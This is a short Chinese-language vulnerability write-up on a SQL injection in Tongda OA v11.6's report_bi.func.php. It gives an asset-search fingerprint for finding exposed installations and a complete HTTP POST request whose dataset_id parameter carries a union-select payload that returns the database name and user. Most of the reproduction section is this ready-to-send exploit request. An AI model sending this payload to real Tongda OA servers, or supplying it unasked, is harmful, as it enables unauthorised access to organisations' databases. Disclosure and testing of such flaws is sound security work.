 # 通达OA v11.6 report_bi.func.php SQL注入漏洞

# 通达OA v11.6 report_bi.func.php SQL注入漏洞

## 漏洞描述

通达OA v11.6 report_bi.func.php 存在SQL注入漏洞，攻击者通过漏洞可以获取数据库信息

## 漏洞影响

```
通达OA v11.6
```

## 网络测绘

```
app="TDXK-通达OA"
```

## 漏洞复现

登陆页面

![image-20220520154236968](/images/202205201542062.png)

发送请求包执行SQL语句

```
POST /general/bi_design/appcenter/report_bi.func.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 113
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

_POST[dataset_id]=efgh%27-%40%60%27%60%29union+select+database%28%29%2C2%2Cuser%28%29%23%27&action=get_link_info&
```

![image-20220520154246274](/images/202205201542313.png)

